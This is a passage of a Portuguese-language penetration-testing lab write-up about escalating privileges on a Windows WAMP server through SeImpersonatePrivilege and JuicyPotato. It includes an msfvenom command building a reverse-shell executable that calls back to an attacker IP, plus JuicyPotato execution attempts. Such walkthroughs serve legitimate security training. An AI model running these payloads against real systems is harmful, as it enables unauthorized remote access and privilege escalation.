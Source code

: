 Verificando os privilegios do usuário atual:

<pre>C:\wamp\www\PHP\fileManager\users\U2&gt;whoami/priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
<font color="GOLD">SeImpersonatePrivilege        Impersonate a client after authentication Enabled </font>
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
</pre>

Verifiquei a presença do token "SeImpersonatePrivilege" que me permitirá escalar privilégios com ajuda do "juicyPotato.exe".

Gerei o payload de shellreverso para o JP executar:

<pre><font color="#5EBDAB">┌──(</font><font color="#277FFF"><b>aluno㉿aluno</b></font><font color="#5EBDAB">)-[</font><b>~</b><font color="#5EBDAB">]</font>
<font color="#5EBDAB">└─</font><font color="#277FFF"><b>$</b></font> <font color="#5EBDAB">msfvenom</font> <font color="#9755B3">-p</font> windows/shell_reverse_tcp lhost=192.168.80.109 lport=1111 <font color="#9755B3">-f</font> exe <font color="#277FFF"><b>&gt;</b></font> exploit1111.exe                                                                                                                                     

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
</pre>

Joguei o "juicyPotato.exe" e o payload gerado no "MysfVenom" para dentro do servidor pelo mesmo ponto de entrada anterior e o executei:

* Links para o JuicyPotato:
  * Normal: https://github.com/ohpe/juicy-potato/releases
  * X86: https://github.com/ivanitlearning/Juicy-Potato-x86/releases

Obs: Não foi possível executar o JP normal. Apresentava erro de arquitetura, com isso procuramos o x86.

Erro:

<pre>C:\wamp\www\PHP\fileManager\users\U2&gt;C:\wamp\www\PHP\fileManager\users\U2\JuicyPotato.exe -t * -p C:\wamp\www\PHP\fileManager\users\U2\revshell_leg.exe -l 11
This version of C:\wamp\www\PHP\fileManager\users\U2\JuicyPotato.exe is not compatible with the version of Windows you&apos;re running. Check your computer&apos;s system information to see whether <font color="RED">you need a x86 (32-bit) or x64 (64-bit) version </font>of the program, and then contact the software publisher.
</pre>
